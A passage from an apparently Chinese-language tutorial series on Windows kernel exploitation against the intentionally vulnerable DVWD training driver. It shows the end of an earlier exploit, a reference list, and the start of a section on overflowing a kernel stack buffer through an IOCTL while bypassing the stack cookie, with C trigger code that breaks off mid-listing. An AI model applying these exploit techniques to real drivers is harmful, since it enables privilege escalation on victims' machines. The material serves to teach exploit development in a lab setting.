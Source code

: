 ```
  }
 }

 return TRUE;
}

```

7. w00t ?
---------

* * *

利用运行结果如下：

![enter image description here](http://drops.javaweb.org/uploads/images/9219006ee51176455ec1edf4a36052435537581f.jpg)

再次w00t !!

引用 0x02
-------

* * *

(1] GDT and LDT in Windows kernel vulnerability exploitation, by Matthew "j00ru" Jurczyk & Gynvael Coldwind, Hispasec (16 January 2010)

(2] Intel Manual Vol. 3A & 3B http://www.intel.com/products/processor/manuals/

(3] Task State Segment (TSS) http://en.wikipedia.org/wiki/Task_State_Segment

(4] Call-Gate, by Ivanlef0u http://www.ivanlef0u.tuxfamily.org/?p=86

0x04 利用基于栈的缓冲区溢出弱点-(绕过 cookie)
=====

在这篇文章中,当我们把很大的buffer传递到驱动（有DEVICEIO_DVWD_STACKOVERFLOW IOCTL）中时,我们将利用驱动中基于栈的缓冲区溢出弱点.主要是我们已得到位于内核态中的buffer且我们可以像在用户态中那样溢出它（内核态中的缓冲区溢出概念和用户态中的溢出概念相同）,正如我们在这个系列中的第一篇文章中看到的,使用RtlCopyMemory()函数是一件很糟糕的事.

首先我们将明白在驱动中检测弱点的方法接着我们将成功利用进程

1. 触发弱点
-------

* * *

为了触发弱点,我已写了一小段代码：

```
/* IOCTL */
#define DEVICEIO_DVWD_STACKOVERFLOW  CTL_CODE(FILE_DEVICE_UNKNOWN, 0x801, METHOD_NEITHER, FILE_READ_DATA | FILE_WRITE_DATA) 

int main(int argc, char *argv[]) {

 char junk[512];
 HANDLE hDevice;

 printf("--[ Fuzz IOCTL DEVICEIO_DVWD_STACKOVERFLOW ---------------------------\n");

 printf("[~] Building junk data to send to the driver...\n");
 memset(junk, 'A', 511);
 junk[511] = '\0';

 printf("[~] Open an handle to the driver DVWD...\n");
 hDevice = CreateFile("\\\\.\\DVWD", 
    GENERIC_READ | GENERIC_WRITE, 
    FILE_SHARE_WRITE | FILE_SHARE_READ | FILE_SHARE_DELETE, 
    NULL, 
    OPEN_EXISTING, 
```